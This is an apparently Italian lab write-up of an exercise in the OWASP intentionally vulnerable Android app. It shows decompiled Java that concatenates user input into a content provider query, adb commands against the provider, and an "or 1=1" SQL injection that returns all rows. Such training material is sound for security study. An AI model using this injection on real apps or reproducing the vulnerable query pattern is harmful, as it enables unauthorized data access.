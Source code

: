 ## OMTG-CODING-003-SQL-INJECTION-CONTENT-PROVIDER

> app/src/main/java/sg/vp/owasp_mobile/OMTG_CODING_003_SQL_Injection_Content_Provider.java

```java
...

public void onClickAddName(View view) {
	ContentValues contentValues = new ContentValues();
	contentValues.put("name", ((EditText) findViewById(C0000R.id.editText2)).getText().toString());
	contentValues.put("grade", ((EditText) findViewById(C0000R.id.editText3)).getText().toString());

	Toast.makeText(getBaseContext(), getContentResolver().insert(OMTG_CODING_003_SQL_Injection_Content_Provider_Implementation.CONTENT_URI, contentValues).toString(), 1).show();
}

public void onClickRetrieveStudents(View view) {
	String str;
	EditText editText = (EditText) findViewById(C0000R.id.searchPattern);
	Log.e("searchPattern", editText.getText().toString());

	if (editText.getText().toString() == null || editText.getText().toString().isEmpty()) {
		str = null;
	} else {
		str = "name='" + editText.getText().toString() + "'";
	}

	Cursor managedQuery = managedQuery(
		Uri.parse("content://sg.vp.owasp_mobile.provider.College/students"), 
		(String[]) null, 
		str, 
		(String[]) null, "name");

	if (managedQuery.moveToFirst()) {
		do {
			Toast.makeText(
				this, 
				managedQuery.getString(
					managedQuery.getColumnIndex("_id")) + ", " + 
					managedQuery.getString(managedQuery.getColumnIndex("name")) + ", " + 
					managedQuery.getString(managedQuery.getColumnIndex("grade")), 
				0)
			.show();
		} while (managedQuery.moveToNext());
	}
}

...
```

- "query all"

```sh
$ adb shell content query --uri content://sg.vp.owasp_mobile.provider.College/students

Row: 0 _id=1, name=fo, grade=7
Row: 1 _id=4, name=foo, grade=1
Row: 2 _id=5, name=foo, grade=2
Row: 3 _id=6, name=foo, grade=3
Row: 4 _id=3, name=foo-fighter, grade=5
Row: 5 _id=2, name=foo-fighters, grade=5
```

- "insert"

```sh
$ adb shell content insert --uri content://sg.vp.owasp_mobile.provider.College/students --bind name:s:"extra-student" --bind grade:s:11
```

- "query a specific name"

```sh
$ content query --uri content://sg.vp.owasp_mobile.provider.College/students --where "name='foo'"

Row: 0 _id=4, name=foo, grade=1
Row: 1 _id=5, name=foo, grade=2
Row: 2 _id=6, name=foo, grade=3
```

Exploit:

- puoi già recuperare tutti i record con il comando in "query all", ma l'obiettivo è individuare la SQL injection nella routine che gestisce il comando in "query a specific name"

```sh
$ adb shell content query --uri content://sg.vp.owasp_mobile.provider.College/students --where "name='foo' or 1=1"

Row: 0 _id=1, name=fo, grade=7
Row: 1 _id=4, name=foo, grade=1
Row: 2 _id=5, name=foo, grade=2
Row: 3 _id=6, name=foo, grade=3
Row: 4 _id=3, name=foo-fighter, grade=5
Row: 5 _id=2, name=foo-fighters, grade=5
```

N.B. il content provider è accessibile a qualsiasi applicazione in esecuzione su un device con Android 4.1 o precedenti quando nell'AndroidManifest.xml il valore di `android:exported` è impostato a `true` per il content provider.
Nelle versioni successive invece non è esposto.

Infatti, su Android 8.1.0, usando drozer si ottiene la seguente exception:

```sh
dz> run app.provider.query content://sg.vp.owasp_mobile.provider.College/students
Permission Denial: opening provider sg.vp.owasp_mobile.OMTG_Android.OMTG_CODING_003_SQL_Injection_Content_Provider_Implementation from ProcessRecord{fe5a5d0 24973:com.mwr.dz:remote/u0a99} (pid=24973, uid=10099) that is not exported from UID 10160
dz>
```